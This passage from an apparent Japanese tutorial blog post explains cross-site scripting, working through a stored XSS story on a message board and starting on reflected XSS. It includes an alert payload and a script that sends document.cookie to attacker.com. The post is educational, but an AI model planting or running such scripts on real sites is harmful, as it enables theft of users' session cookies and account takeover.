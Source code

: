 ```yaml
---
title: 'XSSとCSRF'
author: "sakakibara"
description: 'Lorem ipsum dolor sit amet'
heroImage: '/blog-placeholder-3.jpg'
pubDate: 2024-10-18
tags: ["astro", "math"]
---
```


# Introduction
セキュリティの, 特に攻撃手法は名前だけ見ても聞いてもなんのことか分かりづらい.
そこで, 今回はXSSとCSRFについて具体例をベースに説明する.

## Contents
## XSS
XSSは(クロス・サイト・スクリプティング: サイト間のスクリプト埋め込み)と読む.
具体的には以下のようなストーリで進行する攻撃を指す.
XSSには

- Stored XSS
- Reflected XSS

のように種類がある.
### ストーリ: Stored XSS
> ある掲示板サイトに、コメント機能が実装されています。
> ユーザーは自由にコメントを投稿できますが、投稿された内容が適切にエスケープされずにページに表示されます。
> 攻撃者はここに悪意のあるスクリプトを投稿し、それが他のユーザーによって実行されるように仕組みます。

攻撃の流れとして

1. 攻撃者が掲示板にコメントを投稿
```javascript
<script>alert('XSS Attack!')</script>
```

2. この投稿が掲示板に保存され、他のユーザーがそのページを開いたときに、このスクリプトが自動的に実行される.

3. 実行されると、alertボックスが表示され、攻撃の存在が確認される.

4. 攻撃者がもっと高度なスクリプトを仕込んで、被害者のCookie情報(セッションIDなど)を盗むことも可能となる. 例えば：

```javascript
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```
このようにすることで, この掲示板をみた人は`XSS Attack!`というアラートが表示され,
その上, 攻撃者のサーバにその掲示板のCookie情報が送信される.


### ストーリ: Reflected XSS
> ショッピングサイトやブログなどのWebサイトには、ユーザーが検索を行う機能があります。例えば、検索ボックスに「ノートパソコン」と入力すると、ページ上部に「ノートパソコンの検索結果」といった文が表示されることがあります。
> このように、ユーザーが検索したクエリがそのままページの中に表示される場合, 
> サーバーは入力内容を適切にサニタイズせずに表示するため、攻撃者が特定のURLに悪意のあるスクリプトを埋め込み、それを他のユーザーにクリックさせることでXSS攻撃を行います。
